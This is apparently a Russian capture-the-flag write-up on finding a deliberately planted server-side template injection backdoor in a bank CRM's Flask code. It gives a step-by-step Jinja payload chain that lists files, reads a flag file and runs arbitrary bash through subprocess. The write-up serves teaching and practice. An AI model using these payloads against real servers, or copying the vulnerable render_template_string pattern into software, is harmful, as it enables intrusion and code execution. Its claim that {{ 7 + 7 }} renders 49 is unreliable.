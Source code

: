 # Hidden backdoor: Write-up

Решив таск __Сервер исходных кодов__, мы нашли GitLab Банка. Видим там ещё один репозиторий — CRM.

Недолго думая, понимаем, что он наверное как-то связан с уже найденным `crm.bankbank.tech`, который мы взломали немного ранее в таске __Проникновение__.

Внимательно изучаем репозиторий и обнаруживаем забавную функцию для показа страницы после авторизации:

```python
f = open("templates/crm.html", "r", encoding="utf8").read().replace(">>>FDATA<<<", request.args.get("fdata", ""))

return render_template_string(f)
```

Это очень известная уязвимость — **SSTI** (Server Side Template Injection). А, поскольку очевидно, что это сделано не случайно, можем заключить, что это и есть искомый бекдор. Значит, необходимо идти и **ломать**.

## А вообще, что не так?

Давайте в `fdata` передадим `{{ 7 + 7 }}`. Увидим на странице `49`: значит, фактически, с помощью Jinja Templates можно исполнять код.

## Процесс

Сам синтаксис шаблонов и функция для рендеринга немного ограничивают нас в действиях, поскольку из Jinja доступно не так много функций.

Однако, в шаблоне есть функция `url_for`, и, поскольку хоть какая-нибудь валидация отсутствует, пойдем с неё.

0. `url_for` → функция
1. `url_for.__globals__` → словарь globals, видим где-то `__import__`
   * `url_for.__globals__.__import__` не работает: если отформатировать JSON, то станет видно
2. `url_for.__globals__.__builtins__` → словарь с ключом `__import__`
3. `url_for.__globals__.__builtins__.__import__` → функция, позволяющая инлайново импортировать модули
4. `url_for.__globals__.__builtins__.__import__('os')` → модуль `os`
5. `url_for.__globals__.__builtins__.__import__('os').listdir` → функция `listdir`
6. `url_for.__globals__.__builtins__.__import__('os').listdir()` → список файлов

Вау, `flag.txt`!

7. `url_for.__globals__.__builtins__.open` → функция `open`
8. `url_for.__globals__.__builtins__.open('flag.txt')` → файловый дескриптор
9. `url_for.__globals__.__builtins__.open('flag.txt').read()` → флаг

Можно пойти и дальше:

10. `url_for.__globals__.__builtins__.__import__('subprocess').run(['/bin/bash', '-c', 'whatever you want'], stdout=-1).stdout`

Шелл, который в рамках таска нам нужен не был.

Флаг: **uctf_we_should_go_deeper**
